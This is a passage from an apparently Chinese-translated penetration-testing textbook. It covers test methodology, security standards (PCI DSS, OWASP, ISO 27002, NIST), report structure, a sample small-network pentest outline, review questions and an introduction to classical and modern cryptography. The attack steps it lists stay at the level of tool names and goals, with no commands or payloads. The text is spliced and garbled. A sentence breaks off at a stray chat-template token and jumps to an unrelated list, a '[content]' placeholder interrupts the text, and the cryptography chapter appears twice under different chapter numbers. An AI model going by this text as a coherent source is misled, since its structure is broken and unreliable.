本章讨论的每个标准都有其特定的优势。通过将它们融合为单一方法，渗透测试员将拥有进行渗透测试的地图，而该地图将基于非常坚实的基础。应注意，本节所述内容是一个大纲，你可以根据情况需要对其进行扩展。本节所述方法是一个四阶段流程，结合了之前所述标准的各个要素，并与这些标准一致。因此，这种四阶段方法可以与上述任何标准一起使用。该方法描述了你对特定测试的渗透测试方法。这将包括：

- 1. 提供的信息量（即黑盒、白盒、灰盒测试）。
- 2. 此测试是否针对某个标准（NSA-IAM、PCI 等）？
- 3. 此测试是否涉及内部和外部测试，或仅其中一种？
- 4. 此测试是否包括物理渗透测试和/或社会工程？
- 5. 手工与自动化测试的比例如何？

最重要的是，该方法应描述选择该特定方法的理由。一个示例方法声明可能如下所示：

本次测试是为 PCI DSS 要求而进行的。测试将涉及内部和外部测试，并以测试员获得大量信息的方式进行（即白盒测试）。此特定测试不包括物理测试或社会工程。测试将涉及自动化和手工任务，主要使用的工具为：

- Metasploit
- OWASP ZAP
- Vega
- Nmap
- Nessus

这些工具将与手工测试技术结合使用。

测试将首先进行内部和外部漏洞扫描。随后将评估特定的 PCI DSS 要求的<|message|>

- 3. 客户的任何具体关切。这也可以指导你测试适当的区域。
- 4. 确保你和客户就范围以及渗透测试能做什么达成一致。客户拥有现实的期望是很重要的。

前面的列表是示例性的，并非详尽无遗。更多信息总是受欢迎的。

## 实际测试

预参与阶段完成后，下一步是进行实际的渗透测试。渗透测试是一个多步骤的过程。每个步骤同等重要。实际测试进一步分为四个子阶段：

- **阶段 1 – 被动扫描：** 你通过收集尽可能多的目标数据开始渗透测试。此阶段为被动数据收集阶段。这包括社交媒体、netcraft.com、archive.org 等。所有你能获得的被动数据。结合 shodan.io 等资源的先进 Google 搜索可以提供有关目标网络的丰富信息。
- **阶段 2 – 主动扫描：** 此阶段涉及主动扫描目标网络。至少，你将使用 nmap 对所有可用 IP 地址进行端口扫描。然后使用至少两种不同的漏洞扫描器（Vega、OWASP ZAP、Burp Suite 等）扫描所有可用的网站。你还将对任何可访问的 IP 地址进行漏洞扫描（Nessus、MBSA、OpenVAS 等）。
- 尽可能收集有关服务、端口等的信息。如适用，使用 Metasploit 扫描 SQL Server、SSH、FTP、SMB 等。
- 还建议进行网络扫描以及无线和蓝牙扫描。这可以确定无线是否安全，发现网络中是否发送未加密的数据，并提供网络流量的总体概述。
- **阶段 3 – 入侵：** 现在你必须尝试入侵。这将包括手动进行 SQL 注入和跨站脚本，尝试从 Metasploit 投递恶意软件，尝试钓鱼，投递无害病毒等。建议渗透测试人员结合自动化和手动方法。具体工具可能因当前趋势、已识别的漏洞和目标网络而异。例如，Windows 网络可能需要尝试使用 PowerShell 进行利用。在几乎所有情况下，Metasploit 在尝试利用已识别漏洞时都很有用。

### 阶段 4 – 完成测试
在某些情况下，在渗透测试中发现的问题得到修复后进行至少一次基础漏洞扫描是有益的。这可以检查修复是否成功。

## 报告

报告必须详尽，包含以下部分：

### I. 执行摘要

一到三段文字说明测试范围和结果。

### II. 引言

这里描述测试目标和目的。本节还必须包括测试目标是什么、测试了什么以及排除了什么。被排除的项目将包括因任何原因你未进行的项目，以及由客户指示排除的项目。这通常被称为工作范围。

本节应包括参与规则以及任何过去的入侵或风险评估。此类过去的活动应指导你的渗透测试的优先级排序。

### III. 详细分析

必须包括你进行的每项测试，最好附带逐步讨论和截图。如果使用过生成报告的工具，请将这些报告作为附录附上。

当你识别出漏洞时，尽可能按照知名标准进行识别。例如：

### IV. 结论与风险评级

提供你所发现内容的总体描述以及风险等级。网络的风险评级对客户可能有帮助。这不必是绝对的数学尺度。可以简单描述为低、中、高。也可以扩展为低、中、升高、高、极端。

### V. 补救措施

本节提供有关如何解决和缓解渗透测试中发现的缺陷的详细信息。这些细节应具体到足以让任何有能力的专业技术人员能够纠正你发现的问题。这是报告的关键部分。仅仅说明存在问题是不够的——你必须提供明确的指导，说明如何解决这些问题。

- 国家漏洞数据库
  - 通用漏洞评分系统
  - 通用漏洞和暴露
- Bugtraq ID

## 示例渗透测试

你使用的测试和工具将取决于目标网络、工作范围以及被测试的项目。为了说明目的，考虑一个小型网络，它有 1 个网关路由器、30 台工作站、3 台服务器和 1 台 Web 服务器。以下将是对小型网络的非常基础的渗透测试。请注意这只是一个示例。你的测试评估计划应基于目标网络中系统的关键性。

## 外部

在完成预参与活动和阶段 1 被动扫描后，主动扫描是下一个阶段。在本场景描述的小型网络中，主动扫描将自然过渡到阶段 3 入侵。通常从外部测试开始最容易。

- 1. 首先对所有面向公众的 IP 地址（Web 服务器和网关路由器）进行端口扫描。
- 2. 然后使用漏洞扫描器扫描网站（Vega、OWASP ZAP、Burp Suite 等）。
- 3. 手动尝试对 Web 服务器进行几种常见攻击（跨站脚本、SQL 注入、网站路径遍历等）。
- 4. 对 Web 服务器（取决于服务器）和路由器尝试适当的 Metasploit 攻击。你可能希望在 Web 服务器上使用一些 Metasploit 扫描，特别是匿名 FTP 扫描。
- 5. 尝试访问无线。这应包括尝试破解 Wi-Fi 以及尝试访问无线接入点的管理屏幕。
- 6. 尝试标准攻击，例如抓取横幅、区域传输等。
- 7. 在任何面向公众的设备上尝试默认密码。

## 内部

现在转到内部。这部分是在网络内部完成的。

- 1. 首先进行网络枚举，即内部主动扫描。
- 2. 使用一个或多个工具执行全网漏洞扫描。
- 3. 使用 Nmap 扫描整个网络。识别正在运行的端口和服务，以确定它们是否都需要运行。
- 4. 使用数据包嗅探器扫描包括无线流量在内的网络流量。注意是否有敏感数据以未加密方式发送，以及无线流量是否安全。
- 5. 执行标准的 Metasploit 扫描（匿名 FTP、SMB、SSH、SQL Server 等）。
- 6. 尝试利用发现的任何漏洞。
- 7. 尝试标准攻击，包括：
  a. 尝试连接到计算机的共享。
  b. 尝试破解关键机器上的密码。
  c. 尝试通过 telnet 或 ssh 连接到打印机。
  d. 在任何服务器、打印机、交换机或路由器以及无线接入点上尝试默认密码。

当然，你必须测试所使用标准指示的所有项目。例如，PCI 要求所有信用卡数据的外部通信必须加密。我建议你测试所有内部和外部数据通信。

## 可选项目

- 1. 向员工发送匿名钓鱼邮件，其会做一些无害的事情，例如将他们重定向到一个谴责他们不要点击链接的页面，或一个无害的恶意软件附件，只有一个语音或弹出窗口告诉他们不要下载附件。
- 2. 尝试通过电话或面对面进行社会工程学。
- 3. 渗透测试不是漏洞扫描，但可以包括漏洞扫描（如本文档中已显示）。同样，渗透测试不是审计，但有时可以包括审计的元素。考虑到这一点，你可能希望检查以下项目：
  a. 密码策略
    i. 锁定策略
    ii. 最低要求
    iii. 密码更改频率
    iv. 检查以确保任何系统上均未使用默认密码
  b. 网络上是否有任何未经授权的设备或软件？
  c. 是否仍有不再在组织内的员工的账户处于活跃状态？

此大纲是针对相当小型网络的基础大纲。请随意扩展和添加内容。这应被视为渗透测试的最低要求。

## 相关标准

还有其他标准，它们并不是真正的渗透测试标准，但密切相关。这些是可用于指导你的渗透测试的安全标准。例如，本章前面我提到 OWASP 作为 Web 安全标准。按照某些标准进行测试优于仅仅执行你想到的任何问题的临时测试。


## OWASP

如果您关注的是 Web 应用安全，那么开放式 Web 应用安全项目是您寻找标准、框架和指南的逻辑起点。 在 OWASP 网站 https://www.owasp.org 上，您可以找到一系列 Web 应用安全资源。 其中其他资源之一是 OWASP 针对 Web 开发人员的 安全控制列表：¹

- 1. 尽早且经常地进行安全验证
- 2. 参数化查询
- 3. 编码数据
- 4. 验证所有输入
- 5. 实施身份和身份验证控制
- 6. 实施适当的访问控制
- 7. 保护数据
- 8. 实施日志记录和入侵检测
- 9. 利用安全框架和库
- 10. 错误和异常处理

也许 OWASP 最为人所知的是其 Top 10 漏洞列表。 每隔几年他们就会发布前一年在 Web 应用中发现的十大漏洞。 这是任何关心 Web 应用安全的人的绝佳起点。 至少，您应该解决这些众所周知的漏洞。

## Other Standards

在本节中，我们将回顾常用的通用安全标准。 这些标准并非专门针对渗透测试。 但请记住，您的渗透测试是为了测试目标系统的安全性。 因此，参考安全标准非常有用。 您正在测试目标是否具有足够的安全性。 记录目标未能满足安全标准的情况非常重要。

## ISO 27002

ISO 27002 是网络安全领域广泛使用的 ISO 标准。 该标准推荐了启动、实施和维护信息安全管理体系（ISMS）的最佳实践。 该标准本身以五章介绍性章节开始，仅提供一些指导，例如术语
和标准的范围。 问题在于主要章节，从第 5 章开始。 它们在 ISMS 的许多领域提供了推荐的最佳实践。 以下是章节列表：

- 5. 信息安全政策
- 6. 信息安全组织
- 7. 人力资源安全
- 8. 资产管理
- 9. 访问控制
- 10. 密码学
- 11. 物理和环境安全
- 12. 操作安全程序和职责
- 13. 通信安全
- 14. 系统获取、开发和维护
- 15. 供应商关系
- 16. 信息安全事件管理
- 17. 业务连续性管理的信息安全方面

从渗透测试的角度来看，该标准的一个有趣之处在于，每个组织在选择适合其特定情况的控制措施之前，都应进行结构化的信息安全风险评估流程，以确定其具体要求。 这意味着使用正式方法评估风险是标准的一部分。 当然，风险评估不一定包括渗透测试。 它可以包括其他方法，例如风险评估项目、审计等。 然而，渗透测试正迅速成为风险评估和测试的常见组成部分。

## NIST 800-12, Revision 1

NIST 特刊 800-12，修订版 1，提供了计算机安全的广泛概述。 它主要涉及安全控制领域。 它是为联邦机构编写的，但对任何安全专业人员都有用。 该文件的完整标题是“NIST 特刊 800-12，修订版 1，《信息安全导论》。” 该文件的一个更重要的特点是强调需要在整个系统开发生命周期中解决计算机安全问题，而不仅仅是在系统开发之后。 您可以在 http://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-12r1.pdf 阅读整份超过 100 页的文件。 再次强调，这并非专门针对渗透测试。 事实上，它真正讲的是如何进行计算机安全。 然而，在进行渗透测试时，一种方法是根据某些安全标准来规划测试。

## NIST 800-14

NIST 特刊 800-14 描述了应在安全策略中解决的常见安全原则。 该文件的目的是描述 8 项原则和 14 项实践，可用于制定安全策略。 该文件的重要部分专门用于审计网络上的用户活动。 具体要求包括跟踪用户操作，并在任何调查发生时，能够精确重建用户所做的事情。 审计、监控和入侵检测在该标准中被重点强调。

特刊 800-14 的八项原则如下：

- 1. 计算机安全支持组织的使命。
- 2. 计算机安全是健全管理的不可或缺要素。
- 3. 计算机安全应具有成本效益。
- 4. 系统所有者在组织之外也承担安全责任。
- 5. 计算机安全责任和问责应明确化。
- 6. 计算机安全需要全面且集成的方法。
- 7. 计算机安全应定期重新评估。
- 8. 计算机安全受社会因素制约。

特刊 800-14 的 14 个实践领域如下：

- 1. 政策
- 2. 项目管理
- 3. 风险管理
- 4. 生命周期规划
- 5. 人员/用户问题
- 6. 应急和灾难准备
- 7. 计算机安全事件处理
- 8. 意识和培训
- 9. 计算机支持和运营中的安全考虑
- 10. 物理和环境安全
- 11. 身份识别和身份验证
- 12. 逻辑访问控制
- 13. 审计跟踪
- 14. 密码学

该标准为所有这些领域提供了指南。 因此，它是获取有关目标网络应实施何种安全性的指导的良好来源。 然后您可以根据需要调整渗透测试，以验证（或反驳）这些标准是否得到满足。

## Summary

在本章中，我们研究了与渗透测试相关的各种标准。 这些标准可用于指导您的渗透测试工作。 当进行受特定标准（如 PCI DSS 合规性）管辖的渗透测试时，您显然必须遵循该标准。 但即使您的渗透测试不受特定标准的管辖，参考和使用此类标准也有助于您执行更全面的渗透测试。 这是渗透测试与简单黑客攻击区别的一部分。

## Test Your Skills

### MULTIPLE CHOICE QUESTIONS

- 1. 本章讨论的标准中，哪一个专门讨论了管理客户期望？
   A. PCI-DSS
   B. NSA-IAM
   C. PTES
   D. NIST 800-115
- 2. 哪个标准特别要求漏洞管理？
   A. PCI DSS
   B. NSA-IAM
   C. PTES
   D. NIST 800-115
- 3. PTES 标准使用多少个阶段？
   A. 3
   B. 4
   C. 5
   D. 7
- 4. 在 NSA-IAM 中，实际渗透测试是在哪个阶段？
   A. 评估等级 IV
   B. 评估等级 III
   C. 评估等级 II
   D. 评估等级 I

- 5. 以下哪项专门在 PCI DSS 中提及，但在本章的其他标准中未提及？
   A. 目标
   B. 范围
   C. 报告
   D. 资格

- 6. 使用 PTES 标准，有 ___ 个阶段，漏洞分析发生在第 ___ 阶段。

- 7. 以下哪一项是实施和维护信息安全系统的国际标准？
   A. ISO 27001
   B. NIST 800-34
   C. NIST 800-30
   D. ISO 27002

- 8. 以下哪一项是题为“信息安全导论”的美国标准？
   A. NIST 800-12，修订版 1
   B. ISO 27001
   C. NIST 800-34
   D. NIST 800-30

- 9. 根据 PTES 标准，您在哪个阶段评估已攻破系统的价值？
   A. 漏洞分析
   B. 利用
   C. 利用后
   D. 风险评估

- 10. 根据 NIST 800-115，您在哪个阶段撰写报告？
   A. 行动后
   B. 利用后
   C. 执行后
   D. 报告阶段


## 项目
### 项目 1
选择本章讨论的标准之一，并撰写一份简要的一页描述，不仅描述该标准，还说明你将如何将其应用于自己的渗透测试。

# 第3章
### 密码学
### 章节目标
阅读本章并完成练习后，你将能够做到以下几点：
- 理解密码学的基础知识
- 理解密码学如何影响你的渗透测试
- 使用标准方法尝试规避密码学

你可能会问自己，为什么在关于渗透测试的书中会有密码学章节？密码学用于保护数据、存储密码哈希以及实现各种其他安全流程。不幸的是，电影和电视中呈现的密码学观点几乎完全是错误的。作为一名渗透测试人员，你需要具备密码学的工作知识。这将指导你哪些可以被规避，哪些不能。它将帮助你理解渗透测试人员或攻击者在处理密码学时面临的能力和局限性。

当然，单靠一章内容无法让人成为密码学专家。甚至一整本书也做不到这一点。但我可以在本章中为你提供密码学的工作知识，足以作为一名渗透测试人员有效发挥作用。而且希望你也能在密码学方面获得足够的知识基础，以便在你决定深入研究时支持进一步学习。本章结束时，你将获得一些推荐资源以继续你的密码学学习。

由于这是一本关于渗透测试的文本，当我们讨论现代密码算法时，将会强调算法与系统安全的相关性。

### 密码学基础
密码学的全部目的就是保护消息。在现代，密码学已扩展到包括密码哈希和数字签名。所有这些任务都与信息安全有关。

而渗透测试就是关于测试安全。因此，渗透测试人员必须至少能够对安全实现的实施进行一些基本测试。

## 加密历史
学习新主题最常见的方法之一就是从该主题的历史开始。对于密码学来说也一样。在本节中，我将为你提供历史密码的一般介绍。现在，这些在现代渗透测试中不会被使用，但它们将帮助你从概念上理解密码学，以便我们可以继续研究现代密码学中更相关的主题。

### 凯撒密码
最古老的加密方法之一是凯撒密码。据称这种方法曾被古罗马凯撒使用——因此得名。它实际上非常简单。你选择一个数字来移动文本中每个字母的位置。例如，如果文本是

```
A cat
```

并且你选择移动两个字母，那么消息就变成

```
C ecv
```

或者，如果你选择移动三个字母，它就变成

```
D f dw
```

据说 Julius Caesar 使用了向右移动三位的方法。然而，你可以选择任何你想要的移动模式。你可以向右或向左移动任意数量的空格。由于这种方法非常简单易懂，它是我们研究加密的良好起点。然而，它极易被破解。你看，任何语言都有特定的字母和单词频率，意味着有些字母比其他字母使用得更频繁。在英语中，最常见的单字母词是 a。最常见的三字母词是 the。仅凭这两条规则就足以帮助你解密凯撒密码。例如，如果你看到一串看似无意义的字母，并且注意到一个三字母词在消息中频繁重复出现，你可能会很容易推断出这个词是 the——而且这种推断的可能性非常高。此外，如果你在文本中经常注意到单字母词，它很可能就是字母 a。你现在已经找到了 A、T、H 和 E 的替换方案。你现在可以翻译消息中所有这些字母并尝试推断其余部分，或者简单分析用于 A、T、H 和 E 的替换字母并推导出用于此消息的替换密码。解密这种类型的消息甚至不需要计算机。没有密码学背景的人用笔和纸在十分钟内就能完成。还有其他规则可以帮助更容易地破解这个代码。例如，在英语中，两个最常见的双字母组合是 ee 和 oo。这给了你更多可用的线索。

这种算法容易被破解的另一个原因是称为密钥空间的问题。*key space* 是可能使用的密钥数量。在这种情况下，应用于英语字母表时，只有 26 个可能的密钥，因为英语字母表只有 26 个字母。这意味着你可以简单地尝试每个可能的密钥（+1、+2、+3....+26），直到其中一个有效。尝试所有可能的密钥被称为 *brute force attack*。

你选择的替换方案（例如，+2、+1）被称为 *substitution alphabet*（即，*B* 替换 *A*，*U* 替换 *T*）。因此，凯撒密码也被称为 *mono-alphabet substitution* 方法，意味着它使用单一替换进行加密。还有其他单字母表算法，但凯撒密码是最广为人知的。

### Atbash
在古代，希伯来抄写员使用这种替换密码来加密宗教作品，如《耶利米书》。应用 Atbash 密码相当简单；只需颠倒字母表的顺序。按现代标准来说，这是一种非常原始且易于破解的密码。

Atbash 密码是一种希伯来密码，它用字母表的最后一个字母替换第一个字母，用倒数第二个字母替换第二个字母，依此类推。它简单地颠倒了字母表。例如，用英语来说：

A becomes Z, B becomes Y, C becomes X, and so on

当然，希伯来人使用的是不同的字母表，*aleph* 是第一个字母，*tav* 是最后一个字母。然而，我将使用英语示例来演示这一点：

Attack at dawn

变成

Zggzxp zg wz dm

正如你所见，*A* 是字母表中的第一个字母，被 *Z* 最后一个字母交换。然后 *T* 是第十九个字母（从末尾数第七个）并与 *G* 第七个字母交换。这个过程一直持续到整个消息被加密。

要解密消息，你只需反转该过程，*Z* 变成 *A*，*B* 变成 *Y*，依此类推。这显然是一个相当简单的密码，在现代不再使用。然而，它说明了密码学的[content]
## 项目
### 项目 1
选择本章讨论的标准之一，并撰写一份简要的一页描述，不仅描述该标准，还说明你将如何将其应用于自己的渗透测试。

# 第4章
### 密码学
### 章节目标
阅读本章并完成练习后，你将能够做到以下几点：
- 理解密码学的基础知识
- 理解密码学如何影响你的渗透测试
- 使用标准方法尝试规避密码学

你可能会问自己，为什么在关于渗透测试的书中会有密码学章节？密码学用于保护数据、存储密码哈希以及实现各种其他安全流程。不幸的是，电影和电视中呈现的密码学观点几乎完全是错误的。作为一名渗透测试人员，你需要具备密码学的工作知识。这将指导你哪些可以被规避，哪些不能。它将帮助你理解渗透测试人员或攻击者在处理密码学时面临的能力和局限性。

当然，单靠一章内容无法让人成为密码学专家。甚至一整本书也做不到这一点。但我可以在本章中为你提供密码学的工作知识，足以作为一名渗透测试人员有效发挥作用。而且希望你也能在密码学方面获得足够的知识基础，以便在你决定深入研究时支持进一步学习。本章结束时，你将获得一些推荐资源以继续你的密码学学习。

由于这是一本关于渗透测试的文本，当我们讨论现代密码算法时，将会强调算法与系统安全的相关性。

### 密码学基础
密码学的全部目的就是保护消息。在现代，密码学已扩展到包括密码哈希和数字签名。所有这些任务都与信息安全有关。

而渗透测试就是关于测试安全。因此，渗透测试人员必须至少能够对安全实现的实施进行一些基本测试。

## 加密历史
学习新主题最常见的方法之一就是从该主题的历史开始。对于密码学来说也一样。在本节中，我将为你提供历史密码的一般介绍。现在，这些在现代渗透测试中不会被使用，但它们将帮助你从概念上理解密码学，以便我们可以继续研究现代密码学中更相关的主题。

### 凯撒密码
最古老的加密方法之一是凯撒密码。据称这种方法曾被古罗马凯撒使用——因此得名。它实际上非常简单。你选择一个数字来移动文本中每个字母的位置。例如，如果文本是

```
A cat
```

并且你选择移动两个字母，那么消息就变成

```
C ecv
```

或者，如果你选择移动三个字母，它就变成

```
D f dw
```

据说 Julius Caesar 使用了向右移动三位的方法。然而，你可以选择任何你想要的移动模式。你可以向右或向左移动任意数量的空格。由于这种方法非常简单易懂，它是我们研究加密的良好起点。然而，它极易被破解。你看，任何语言都有特定的字母和单词频率，意味着有些字母比其他字母使用得更频繁。在英语中，最常见的单字母词是 a。最常见的三字母词是 the。仅凭这两条规则就足以帮助你解密凯撒密码。例如，如果你看到一串看似无意义的字母，并且注意到一个三字母词在消息中频繁重复出现，你可能会很容易推断出这个词是 the——而且这种推断的可能性非常高。此外，如果你在文本中经常注意到单字母词，它很可能就是字母 a。你现在已经找到了 A、T、H 和 E 的替换方案。你现在可以翻译消息中所有这些字母并尝试推断其余部分，或者简单分析用于 A、T、H 和 E 的替换字母并推导出用于此消息的替换密码。解密这种类型的消息甚至不需要计算机。没有密码学背景的人用笔和纸在十分钟内就能完成。还有其他规则可以帮助更容易地破解这个代码。例如，在英语中，两个最常见的双字母组合是 ee 和 oo。这给了你更多可用的线索。

这种算法容易被破解的另一个原因是称为密钥空间的问题。*key space* 是可能使用的密钥数量。在这种情况下，应用于英语字母表时，只有 26 个可能的密钥，因为英语字母表只有 26 个字母。这意味着你可以简单地尝试每个可能的密钥（+1、+2、+3....+26），直到其中一个有效。尝试所有可能的密钥被称为 *brute force attack*。

你选择的替换方案（例如，+2、+1）被称为 *substitution alphabet*（即，*B* 替换 *A*，*U* 替换 *T*）。因此，凯撒密码也被称为 *mono-alphabet substitution* 方法，意味着它使用单一替换进行加密。还有其他单字母表算法，但凯撒密码是最广为人知的。

### Atbash
在古代，希伯来抄写员使用这种替换密码来加密宗教作品，如《耶利米书》。应用 Atbash 密码相当简单；只需颠倒字母表的顺序。按现代标准来说，这是一种非常原始且易于破解的密码。

Atbash 密码是一种希伯来密码，它用字母表的最后一个字母替换第一个字母，用倒数第二个字母替换第二个字母，依此类推。它简单地颠倒了字母表。例如，用英语来说：

A becomes Z, B becomes Y, C becomes X, and so on

当然，希伯来人使用的是不同的字母表，*aleph* 是第一个字母，*tav* 是最后一个字母。然而，我将使用英语示例来演示这一点：

Attack at dawn

变成

Zggzxp zg wz dm

正如你所见，*A* 是字母表中的第一个字母，被 *Z* 最后一个字母交换。然后 *T* 是第十九个字母（从末尾数第七个）并与 *G* 第七个字母交换。这个过程一直持续到整个消息被加密。

要解密消息，你只需反转该过程，*Z* 变成 *A*，*B* 变成 *Y*，依此类推。这显然是一个相当简单的密码，在现代不再使用。然而，它说明了密码学的基本概念：对明文进行某种置换，使其难以被没有解密密文密钥的人阅读。Atbash 密码与凯撒密码一样，是一种单替换密码。这意味着明文中的每个字母与密文中的每个字母之间都有直接的一对一关系。这也意味着可以用作破解凯撒密码的相同字母和单词频率问题也可以用来破解 Atbash 密码。

### 多字母表替换
最终，凯撒密码的改进版本被开发出来，称为 *multi-alphabet substitution*。在这个方案中，你选择多个数字来移动字母（即多个替换字母表）。例如，如果你选择三个替换字母表（+2、−2、+3），则

```
A CAT
```

变成

```
C ADV
```

注意第四个字母重新开始使用另一个 +2，你可以看到第一个 A 被转换成了 C，而第二个 A 被转换成了 D。这使得推断底层文本变得更加困难。虽然这比凯撒密码更难解密，但并不算过于困难。它可以用简单的笔和纸以及一点努力完成。它可以用计算机非常快速地破解。事实上，今天没有人会使用这种方法来发送任何真正安全的信息，因为这种类型的加密被认为非常薄弱。

在某个时期，多字母表替换被认为相当安全。事实上，这种方法的一个特殊版本，称为 Vigenère 密码，在 1800 年代和 1900 年代早期被使用。Vigenère 密码由 Giovan Battista Bellaso 于 1553 年发明。这是一种多字母表密码，使用查找表。图 3-1 显示了 Vigenère 密码中使用的表。

|   | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| A | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z |
| B | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A |
| C | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B |
| D | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C |
| E | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D |
| F | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E |
| G | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F |
| H | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G |
| I | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H |
| J | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I |
| K | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J |
| L | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K |
| M | M | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L |
| N | N | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M |
| O | O | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N |
| P | P | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O |
| Q | Q | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P |
| R | R | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q |
| S | S | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R |
| T | T | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S |
| U | U | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T |
| V | V | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U |
| W | W | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V |
| X | X | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W |
| Y | Y | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X |
| Z | Z | A | B | C | D | E | F | G | H | I | J | K | L | M | N | O | P | Q | R | S | T | U | V | W | X | Y |

将顶部关键词的字母与左侧明文字母匹配以找到密文字母。例如，如果你加密单词 cat 且你的密钥是 horse，则密文是 jok。


## 栅栏密码

我们之前检查过的所有密码都是替换密码。经典密码学的另一种方法是换位密码。栅栏密码可能是最广为人知的换位密码。你只需取下想要加密的消息并将每个字母放在不同的行上。因此“attack at dawn”写成

A  t  c  a  d  w
    t  a  k  t  a  n

接下来，你按通常的方式从左到右写下文本，从而得到

atcadwtaktan

为了解密消息，接收方必须将其按行写出：

A  t  c  a  d  w
    t  a  k  t  a  n

然后接收方重建原始消息。大多数文本使用两行作为示例；然而，这可以用你想要使用的任意行数来完成。

## 现代方法

前一节的目的是让你熟悉密码学的核心概念；然而，作为渗透测试人员，你需要熟悉现代密码学方法。上一节讨论的历史方法已不再使用。

最好你从对密码学的现实理解开始。与许多电影中描绘的不同，你不太可能“破解”现代加密算法。肯定不会在对你有用的时间范围内。然而，密码学的实现、用于访问加密驱动器的密码以及密钥交换协议至少都存在被破坏或绕过的可能性。

在我们深入探讨这个主题之前，让我们先从一些你需要的基本定义开始：

- **Key:** 与明文结合以对其进行加密的位。在对称密码中这是随机数；在非对称密码中它是某种数学运算的结果。
- **Plaintext:** 未加密的文本。
- **Ciphertext:** 加密后的文本。
- **Algorithm:** 将密钥与明文结合以生成密文的数学过程。

## 对称加密

对称加密意味着使用相同的密钥来加密和解密消息。这也被称为*single key encryption*。对称算法有两种类型：流密码和分组密码。分组密码将数据分成块（通常是 64 位块，但较新的算法有时使用 128 位块）并一次加密一个块。流密码将数据作为比特流一次加密一个比特。

## 数据加密标准

这是一个较旧的算法，已不再被认为安全。然而，DES 中使用的结构至今仍在使用，并且通常是任何密码学学生将研究的第一个对称算法。*Data Encryption Standard*，或通常称为*DES*，由 IBM 于 1970 年代初开发。它最终于 1976 年发布。DES 是一种分组密码。*block cipher*是指将明文分成块并加密每个块的密码。在 DES 的情况下，使用 64 位块。然而，其基本概念如下：

- 1. 数据被分成 64 位块，然后这些块被换位。
- 2. 换位后的数据随后由 16 轮加密操作处理，涉及使用 56 位密钥的替换、位移和逻辑运算。
- 3. 数据随后使用交换算法进一步混淆。
- 4. 数据最后再进行一次换位。

该算法实际上相当可靠，但其较小的密钥长度 56 位不足以抵御现代计算机的暴力攻击。对于刚接触安全和密码学的人来说，前面列出的简要事实已足够。然而，对于那些想深入了解的人，让我们来检查 DES 算法的细节。DES 使用应用于 64 位块的 56 位密码密钥。实际上有一个 64 位密钥，但每个字节的一位用于错误校正，只剩下 56 位用于实际密钥操作。

DES 是一种 Feistel 密码，具有 16 轮，每轮使用 48 位轮密钥。Feistel 密码（也称为 Feistel 函数）以概念的发明者、DES 的主要发明者 Horst Feistel 的名字命名。所有 Feistel 密码的工作方式相同：它们将块分成两半，对其中一半应用轮函数，然后交换两半。每一轮都这样做。不同 Feistel 密码之间的主要区别在于轮函数内部具体发生了什么。

## 3DES

Triple DES 是作为 DES 的替代品创建的。当时，密码学界正在寻找可行的替代方案。在此期间，创建了一个临时措施。它本质上使用三个不同的密钥对 DES 应用三次，因此得名 3DES。

3DES 有一些变体仅使用两个密钥。文本首先使用密钥 A 加密。该操作的密文随后使用密钥 B 加密。然后该操作的密文再次被加密，这次重新使用密钥 A。原因在于创建良好的密码密钥在计算上很密集。这是一种方法。还有其他变体。

## AES

高级加密标准（AES）是最终被选为取代 DES 的算法。它是一种在 128 位块上工作的分组密码。它可以有 128、192 或 256 位三种密钥长度之一。这是美国政府选定的 DES 替代品，现在是最广泛使用的对称密钥算法。

AES 也被称为 Rijndael 分组密码。它在涉及 15 种竞争算法的 5 年流程后，于 2001 年正式被指定为 DES 的替代品。AES 被指定为 FIPS 197。未赢得该竞赛的其他算法包括众所周知的 Twofish 等算法。AES 的重要性不言而喻。它在全球范围内被广泛使用，也许是最广泛使用的对称密码。本章所有算法中，AES 是你应给予最多关注的。

